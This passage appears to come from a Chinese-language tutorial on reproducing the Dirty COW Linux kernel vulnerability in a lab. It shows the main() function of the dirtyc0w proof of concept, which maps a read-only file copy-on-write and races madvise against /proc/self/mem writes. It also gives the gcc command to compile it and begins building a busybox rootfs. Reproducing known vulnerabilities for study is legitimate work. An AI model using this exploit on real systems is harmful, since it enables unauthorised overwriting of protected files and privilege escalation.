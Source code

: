 ```c
int main(int argc,char *argv[])
{
/*
You have to pass two arguments. File and Contents.
*/
  if (argc<3) {
  (void)fprintf(stderr, "%s\n",
      "usage: dirtyc0w target_file new_content");
  return 1; }
  pthread_t pth1,pth2;
/*
You have to open the file in read only mode.
*/
  f=open(argv[1],O_RDONLY);
  fstat(f,&st);
  name=argv[1];
/*
You have to use MAP_PRIVATE for copy-on-write mapping.
> Create a private copy-on-write mapping.  Updates to the
> mapping are not visible to other processes mapping the same
> file, and are not carried through to the underlying file.  It
> is unspecified whether changes made to the file after the
> mmap() call are visible in the mapped region.
*/
/*
You have to open with PROT_READ.
*/
  map=mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);
  printf("mmap %zx\n\n",(uintptr_t) map);
/*
You have to do it on two threads.
*/
  pthread_create(&pth1,NULL,madviseThread,argv[1]);
  pthread_create(&pth2,NULL,procselfmemThread,argv[2]);
/*
You have to wait for the threads to finish.
*/
  pthread_join(pth1,NULL);
  pthread_join(pth2,NULL);
  return 0;
}
```

编译PoC：

```sh
gcc -static -pthread dirtyc0w.c -o dirtyc0w
```

### rootfs

这里采用busybox手动构建。克隆busybox源码仓库，进行menuconfig配置：
